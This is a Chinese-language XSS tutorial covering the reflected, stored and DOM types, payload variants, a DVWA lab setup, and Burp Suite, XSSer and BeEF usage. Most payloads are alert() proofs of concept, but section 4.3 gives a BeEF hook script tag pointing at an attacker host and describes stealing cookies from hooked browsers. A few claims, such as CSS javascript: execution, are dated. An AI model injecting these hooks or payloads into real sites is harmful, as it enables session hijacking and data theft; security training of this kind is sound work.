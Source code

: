 # 跨应用脚本攻击（XSS）案例分析

## 1. 技术原理解析

### 1.1 跨应用脚本攻击（XSS）概述
跨应用脚本攻击（Cross-Site Scripting, XSS）是一种常见的Web安全漏洞，攻击者通过在目标网站中注入恶意脚本，使得这些脚本在用户的浏览器中执行，从而窃取用户数据、劫持会话、篡改页面内容等。XSS漏洞通常分为三类：反射型XSS、存储型XSS和DOM型XSS。

### 1.2 反射型XSS
反射型XSS是最常见的XSS类型，攻击者通过构造恶意URL，将恶意脚本作为参数传递给目标网站。目标网站未对输入进行有效过滤或转义，直接将恶意脚本反射回用户的浏览器中执行。

**底层实现机制：**
1. 攻击者构造恶意URL，如`http://example.com/search?q=<script>alert('XSS')</script>`。
2. 用户访问该URL，服务器将`<script>alert('XSS')</script>`作为搜索参数返回给用户。
3. 用户的浏览器解析并执行该脚本，触发XSS攻击。

### 1.3 存储型XSS
存储型XSS的恶意脚本被永久存储在目标服务器上，当其他用户访问包含恶意脚本的页面时，脚本会被执行。这种类型的XSS通常出现在论坛、评论系统等用户生成内容的地方。

**底层实现机制：**
1. 攻击者在目标网站提交包含恶意脚本的内容，如评论或帖子。
2. 服务器将恶意脚本存储在数据库中。
3. 其他用户访问包含恶意脚本的页面时，服务器将恶意脚本返回给用户。
4. 用户的浏览器解析并执行该脚本，触发XSS攻击。

### 1.4 DOM型XSS
DOM型XSS的恶意脚本通过修改页面的DOM结构来触发，通常不涉及服务器端的处理。攻击者通过构造恶意URL或输入，使得页面中的JavaScript代码执行恶意操作。

**底层实现机制：**
1. 攻击者构造恶意URL，如`http://example.com/#<script>alert('XSS')</script>`。
2. 用户访问该URL，页面中的JavaScript代码解析URL中的片段标识符（`#`后的部分）。
3. JavaScript代码将恶意脚本插入到DOM中，触发XSS攻击。

## 2. 变种和高级利用技巧

### 2.1 基于事件的XSS
攻击者利用HTML事件属性（如`onclick`、`onload`等）来触发恶意脚本的执行。例如：
```html
<img src="x" onerror="alert('XSS')">
```
当图片加载失败时，`onerror`事件触发，执行恶意脚本。

### 2.2 基于CSS的XSS
攻击者利用CSS表达式或`style`属性来执行恶意脚本。例如：
```html
<div style="background-image: url('javascript:alert("XSS")')"></div>
```
当浏览器解析`style`属性时，会执行`javascript:`伪协议中的脚本。

### 2.3 基于JSON的XSS
攻击者利用JSON数据中的恶意脚本来触发XSS。例如：
```json
{"name": "<script>alert('XSS')</script>"}
```
如果服务器未对JSON数据进行有效过滤或转义，恶意脚本会被执行。

### 2.4 基于Flash的XSS
攻击者利用Flash文件中的`ExternalInterface.call`方法来执行恶意脚本。例如：
```actionscript
ExternalInterface.call("alert", "XSS");
```
当Flash文件加载时，会调用JavaScript的`alert`方法，触发XSS攻击。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
为了进行XSS攻击的实验，我们需要搭建一个包含XSS漏洞的Web应用。可以使用以下工具和框架：

- **DVWA (Damn Vulnerable Web Application)**：一个专门用于安全测试的Web应用，包含多种常见漏洞，包括XSS。
- **XAMPP**：一个集成的Web服务器环境，支持Apache、MySQL、PHP等。

**搭建步骤：**
1. 下载并安装XAMPP。
2. 下载DVWA并将其解压到XAMPP的`htdocs`目录下。
3. 启动XAMPP，并启动Apache和MySQL服务。
4. 访问`http://localhost/dvwa`，按照提示完成DVWA的安装和配置。

### 3.2 反射型XSS攻击实验
**攻击步骤：**
1. 登录DVWA，选择“Reflected XSS”模块。
2. 在输入框中输入`<script>alert('XSS')</script>`，提交表单。
3. 观察页面是否弹出警告框，确认XSS漏洞存在。

### 3.3 存储型XSS攻击实验
**攻击步骤：**
1. 登录DVWA，选择“Stored XSS”模块。
2. 在输入框中输入`<script>alert('XSS')</script>`，提交表单。
3. 刷新页面或让其他用户访问该页面，观察是否弹出警告框，确认XSS漏洞存在。

### 3.4 DOM型XSS攻击实验
**攻击步骤：**
1. 登录DVWA，选择“DOM XSS”模块。
2. 在URL中添加`#<script>alert('XSS')</script>`，访问该URL。
3. 观察页面是否弹出警告框，确认XSS漏洞存在。

## 4. 实际命令、代码或工具使用说明

### 4.1 使用Burp Suite进行XSS测试
Burp Suite是一款常用的Web安全测试工具，支持自动化的XSS漏洞扫描。

**使用步骤：**
1. 启动Burp Suite，配置浏览器代理为Burp Suite的监听端口（默认8080）。
2. 访问目标网站，Burp Suite会自动捕获HTTP请求。
3. 在Burp Suite的“Proxy”模块中，右键点击目标请求，选择“Send to Intruder”。
4. 在“Intruder”模块中，选择“Positions”标签，标记需要测试的参数。
5. 在“Payloads”标签中，选择“XSS”作为Payload类型，开始测试。
6. 分析测试结果，确认是否存在XSS漏洞。

### 4.2 使用XSSer进行自动化XSS攻击
XSSer是一款自动化的XSS漏洞扫描工具，支持多种XSS攻击技术。

**使用步骤：**
1. 安装XSSer：`sudo apt-get install xsser`。
2. 运行XSSer：`xsser -u "http://example.com/search?q=test" --auto`。
3. 分析输出结果，确认是否存在XSS漏洞。

### 4.3 使用BeEF进行XSS利用
BeEF（Browser Exploitation Framework）是一款专注于浏览器漏洞利用的工具，支持XSS攻击后的浏览器控制。

**使用步骤：**
1. 启动BeEF：`sudo beef-xss`。
2. 在目标网站中注入BeEF的Hook脚本：`<script src="http://<BeEF_IP>:3000/hook.js"></script>`。
3. 访问包含Hook脚本的页面，BeEF会自动捕获目标浏览器。
4. 在BeEF的控制台中，执行各种浏览器操作，如窃取Cookie、发起请求等。

## 5. 总结
跨应用脚本攻击（XSS）是一种严重的安全威胁，攻击者可以通过多种方式利用XSS漏洞来窃取用户数据、劫持会话等。通过深入理解XSS的底层机制、掌握各种变种和高级利用技巧，并结合实际工具和实验环境进行测试，可以有效提升Web应用的安全性，防止XSS攻击的发生。

---

*文档生成时间: 2025-03-14 21:12:58*
